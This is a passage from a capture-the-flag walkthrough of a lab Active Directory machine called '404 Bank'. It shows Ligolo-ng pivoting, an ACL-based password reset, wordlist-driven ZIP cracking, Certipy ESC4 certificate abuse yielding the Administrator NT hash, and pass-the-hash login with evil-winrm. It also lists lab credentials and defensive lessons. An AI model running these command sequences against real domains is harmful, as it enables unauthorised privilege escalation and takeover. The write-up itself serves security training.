
This aligned with a hint found on the public website indicating that the web administrator prefers using port 5000 for internal services but we cant use it from outside the machine , that indicates that need localhost address.
[Step 15] Setting Up a Pivot with Ligolo-ng
To access the internal service, I configured a tunnel using Ligolo-ng. Ligolo-ng uses the hardcoded "magic" CIDR 240.0.0.0/4 for accessing localhost services on the agent.
Proxy Setup:
┌──(kali㉿kali)-[~/hacksmarter_labs/404_Bank]
└─$ sudo ./proxy -selfcert
[sudo] password for kali:
INFO[0000] Loading configuration file ligolo-ng.yaml
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
INFO[0000] Listening on 0.0.0.0:11601
__ _ __
/ / (_)___ _____ / /___ ____ ____ _
/ / / / __ `/ __ \/ / __ \______/ __ \/ __ `/
/ /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/ /_/ /_/\__, /
/____/ /____/
Made in France ♥ by @Nicocha30!
Version: 0.8.2
ligolo-ng » INFO[0116] Agent joined. id=0e934fa4d28f name="FINANCE404\\daniel.hoffmann@DC-404" remote="10.0.17.242:49872"
ligolo-ng »
ligolo-ng » session
? Specify a session : 1 - FINANCE404\daniel.hoffmann@DC-404 - 10.0.17.242:49872 - 0e934fa4d28f
[Agent : FINANCE404\daniel.hoffmann@DC-404] » interface_create --name 404-bank
INFO[0221] Creating a new 404-bank interface...
INFO[0221] Interface created!
[Agent : FINANCE404\daniel.hoffmann@DC-404] » interface_add_route --name 404-bank --route 240.0.0.1/32
INFO[0235] Route created.
[Agent : FINANCE404\daniel.hoffmann@DC-404] » start --tun 404-bank
INFO[0253] Starting tunnel to FINANCE404\daniel.hoffmann@DC-404 (0e934fa4d28f)With the tunnel established, I could now access the internal service at http://240.0.0.1:5000.

[Step 16] Accessing the Internal Admin Interface
Browsing to the internal service revealed an admin login panel:

Reviewing BloodHound again, I noticed that daniel.hoffmann has ForceChangePassword privileges over the webadmin user:

I reset the webadmin password using bloodyAD:

Successfully logging into the internal admin interface, I discovered a downloadable .zip file:

[Step 17] Password-Protected Archive
The ZIP file was password-protected. Standard wordlists failed to crack it:

Solution: Create a custom wordlist using data from the target environment. I used CeWL to scrape the public website and generate a context-specific wordlist:
cewl --depth 3 http://10.0.17.242 --with-numbers --write custom_wordlistUsing the custom wordlist, I successfully cracked the ZIP password:

Extracting the contents revealed the password for svc.services:

Domain Compromise - ADCS ESC4 Exploitation
With access to the svc.services account, I could now exploit the Active Directory Certificate Services (ADCS) vulnerability identified earlier. The environment contained a certificate template vulnerable to ESC4 (certificate template with overly permissive ACLs).
Understanding ESC4
ESC4 occurs when a low-privileged user has write permissions over a certificate template. An attacker can modify the template to make it vulnerable to privilege escalation, then request a certificate impersonating a high-privileged user (like Domain Administrator).
Reference: https://github.com/ly4k/Certipy/wiki/06-‐-Privilege-Escalation
Exploitation Steps
Step 1: Modify the vulnerable template to restore default configuration (making it exploitable):
┌──(kali㉿kali)-[~/hacksmarter_labs/404_Bank]
└─$ certipy template -u 'svc.services@404finance.local' -p '[REDACTED]' -dc-ip 10.0.17.242 -template 'Vuln-ESC4' -write-default-configuration -no-save
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[*] Updating certificate template 'Vuln-ESC4'
[*] Replacing:
[*] nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*] flags: 66104
[*] pKIDefaultKeySpec: 2
[*] pKIKeyUsage: b'\x86\x00'
[*] pKIMaxIssuingDepth: -1
[*] pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*] pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*] pKIOverlapPeriod: b'\x00\x80\xa6\n\xff\xde\xff\xff'
[*] pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*] msPKI-RA-Signature: 0
[*] msPKI-Enrollment-Flag: 0
[*] msPKI-Private-Key-Flag: 16
[*] msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'Vuln-ESC4'? (y/N): y
[*] Successfully updated 'Vuln-ESC4'Step 2: Request a certificate with the Administrator's UPN (User Principal Name):
┌──(kali㉿kali)-[~/hacksmarter_labs/404_Bank]
└─$ certipy req -u 'svc.services@404finance.local' -p '[REDACTED]' -ca '404finance-DC-404-CA' -template 'Vuln-ESC4' -upn 'administrator@404finance.local'
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[!] DNS resolution failed: The DNS query name does not exist: 404FINANCE.LOCAL.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@404finance.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'Step 3: Authenticate using the certificate to retrieve the Administrator's NT hash:
┌──(kali㉿kali)-[~/hacksmarter_labs/404_Bank]
└─$ certipy auth -pfx administrator.pfx -dc-ip 10.0.17.242
Certipy v5.0.4 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] SAN UPN: 'administrator@404finance.local'
[*] Using principal: 'administrator@404finance.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@404finance.local': aad3b435b51404eeaad3b435b51404ee:[REDACTED]Administrator Access
With the NT hash, I performed a Pass-the-Hash attack to gain Administrator access:
evil-winrm -i 10.0.17.242 -u administrator -H [REDACTED]Successfully authenticated as Domain Administrator and captured the root flag.
Attack Chain Summary
Initial Recon (Web + Nmap)
↓
Username Enumeration (employee names from website)
↓
Password Discovery (MD5 hash in .exe file)
↓
karl.hackermann (Password123!!)
↓
GenericWrite over tom.reboot → Targeted Kerberoasting
↓
tom.reboot (P@ssw0rd123)
↓
ForceChangePassword over robert.graef
↓
robert.graef (Zerotrace123!)
↓
ForceChangePassword over 3 RDP users + AddMember to RDP group
↓
Credential hunting via RDP sessions → jan.tresor Recycle Bin
↓
daniel.hoffmann (RemoteAccess!2024)
↓
WinRM access + Internal port discovery (5000)
↓
Ligolo-ng pivot to internal service
↓
ForceChangePassword over webadmin → Internal admin access
↓
Password-protected ZIP (cracked with custom wordlist)
↓
svc.services credentials revealed
↓
ADCS ESC4 exploitation → Administrator certificate
↓
Domain Administrator (Pass-the-Hash)
Lessons Learned
- OPSEC in Development: The debug string containing hardcoded credentials in the executable demonstrates poor development practices. Credentials should never be embedded in binaries.
- ACL Misconfigurations: The chain of ACL misconfigurations (GenericWrite → ForceChangePassword → WriteAccountRestrictions) demonstrates how seemingly minor permissions can be chained for privilege escalation.
- Internal Service Exposure: The internal admin panel on port 5000 was protected only by a single account password, and that account was vulnerable to password reset via ACL abuse.
- ADCS Security: Certificate template permissions must be carefully managed. ESC4 demonstrates how write access to certificate templates can lead to complete domain compromise.
- Custom Wordlist Generation: When standard wordlists fail, context-specific wordlists generated from the target environment (using tools like CeWL) can be highly effective.
- Defense Recommendations:
- Audit and restrict ACL permissions across AD objects
- Implement certificate template hardening
- Remove debug code and credentials from production binaries
- Segment network access to internal administrative interfaces
- Monitor for unusual certificate requests and ACL modifications
- Implement MFA for privileged accounts
Tools Used
- Nmap - Network scanning
- username-anarchy - Username list generation
- Hashcat - Password hash cracking
- Kerbrute - Kerberos username enumeration
- NetExec - Network execution and AD enumeration
- BloodHound - Active Directory attack path mapping
- targetedKerberoast - Targeted Kerberoasting attacks
- bloodyAD - Active Directory privilege escalation
- Evil-WinRM - WinRM shell
- Ligolo-ng - Tunneling and pivoting
- CeWL - Custom wordlist generation
- Certipy - ADCS exploitation
Conclusion
The 404-Bank machine provided an excellent demonstration of modern Active Directory exploitation techniques. The attack chain required:
- Thorough enumeration and OSINT collection
- Understanding of Active Directory ACL abuse techniques
- Creative credential harvesting from non-traditional sources
- Knowledge of ADCS architecture and exploitation
- Pivoting skills to access internal-only services
This machine serves as a valuable training ground for both offensive and defensive security professionals, showcasing realistic AD misconfigurations and the importance of proper security governance in Windows environments.
This walkthrough is for educational purposes only. Always obtain proper authorization before testing security controls.